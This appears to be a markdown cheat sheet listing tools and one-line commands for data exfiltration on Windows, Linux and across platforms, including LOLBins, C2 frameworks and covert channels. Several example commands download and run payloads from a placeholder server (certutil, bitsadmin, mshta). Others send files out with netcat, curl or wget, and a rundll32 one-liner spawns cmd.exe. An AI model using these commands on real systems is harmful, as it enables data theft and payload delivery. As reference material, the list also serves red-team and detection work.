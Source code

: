 
# Tools for Data Exfiltration (Legal and Illegal)

## **1. Built-in Windows Binaries (LOLBins)**
Legitimate binaries available on most Windows systems that can be abused for exfiltration:

### **Command-line Utilities**
1. **Certutil**
   - Example: `certutil -urlcache -split -f http://<server>/file.exe`
   - Purpose: Certificate management but can download/upload files.

2. **Bitsadmin**
   - Example: `bitsadmin /transfer myJob /download /priority normal http://<server>/file C:\file`
   - Purpose: Manage Background Intelligent Transfer Service (BITS).

3. **PowerShell**
   - Example: `Invoke-WebRequest -Uri http://<server>/file -OutFile file`
   - Purpose: Task automation and management.

4. **Curl** (if installed)
   - Example: `curl -O http://<server>/file`
   - Purpose: Transfer data from or to a server.

5. **Wget** (if installed)
   - Example: `wget http://<server>/file -O file`
   - Purpose: Download files.

6. **FTP**
   - Example: `ftp -s:script.txt`
   - Purpose: Transfers files over FTP.

7. **Tftp**
   - Example: `tftp -i <server> get file`
   - Purpose: Transfers files using TFTP.

8. **Mshta**
   - Example: `mshta http://<server>/script.hta`
   - Purpose: Execute HTML applications, can exfiltrate data via web requests.

9. **Rundll32**
   - Example: `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";CreateObject("WScript.Shell").Run("cmd.exe")`
   - Purpose: Run DLLs but can execute arbitrary commands/scripts.

10. **Certreq**
    - Purpose: Certificate requests but can be abused for data transfer.

11. **Robocopy**
    - Example: `robocopy <source> <destination> /mir`
    - Purpose: File copying and syncing, including network shares.

---

## **2. Linux/macOS Utilities**
1. **scp**
   - Example: `scp file user@<server>:<destination>`
   - Purpose: Secure file transfer over SSH.

2. **rsync**
   - Example: `rsync -avz file user@<server>:<destination>`
   - Purpose: File synchronization and transfer.

3. **Netcat**
   - Example: `nc <server> <port> < file`
   - Purpose: Send or receive data over the network.

4. **cURL**
   - Example: `curl -T file http://<server>/upload`
   - Purpose: Data transfer using multiple protocols.

5. **wget**
   - Example: `wget --post-file=file http://<server>/upload`
   - Purpose: Download or upload files.

6. **Python**
   - Example: `python -m http.server` or using Python scripts for exfiltration.
   - Purpose: Execute scripts for data transfer.

7. **SSH**
   - Example: `ssh user@<server> "cat > file" < file`
   - Purpose: Secure data transfer and command execution.

---

## **3. Cross-platform Tools**
1. **Rclone**
   - Purpose: Sync data to/from cloud services (Google Drive, Dropbox, etc.).

2. **SFTP**
   - Example: `sftp user@<server>`
   - Purpose: Secure file transfer protocol.

3. **HTTP Servers**
   - Tools like `SimpleHTTPServer` (Python), Apache, or nginx can act as servers to send/receive data.

4. **Cloud Storage Sync Tools**
   - Google Drive (gdrive CLI), Dropbox, OneDrive clients.

5. **TeamViewer/AnyDesk/Remote Desktop Tools**
   - Purpose: Remote control but can transfer files.

---

## **4. Third-party Tools (Often Used for Malicious Intent)**
1. **Cobalt Strike**
   - Purpose: Red team tool for penetration testing; often abused.

2. **Meterpreter** (part of Metasploit)
   - Purpose: Post-exploitation tool that can send/receive files.

3. **Exfiltration Frameworks**
   - **Exfil** (data over ICMP).
   - **DNSCat2** (data over DNS).

4. **Custom Scripts**
   - Python, PowerShell, Bash scripts tailored for exfiltration.

---

## **5. Network-based Tools**
1. **Wireshark/Tcpdump**
   - Purpose: Packet capturing but can extract sensitive data.

2. **Netsh**
   - Example: `netsh trace start capture=yes`
   - Purpose: Network diagnostics but can extract data.

3. **ICMP Exfiltration**
   - Tools: Ping or custom tools to send data using ICMP packets.

4. **DNS Exfiltration**
   - Tools: Dig, Nslookup, custom scripts to encode data in DNS queries.

---

## **6. Advanced and Covert Methods**
1. **Steganography Tools**
   - Tools like **Steghide** or **Outguess** to embed data in images or files.

2. **Clipboard Hijacking**
   - Abuse clipboard data for exfiltration.

3. **Covert Channels**
   - Use unused fields in protocols (e.g., TCP/UDP headers).

4. **Bluetooth Tools**
   - Transfer files via Bluetooth to nearby devices.

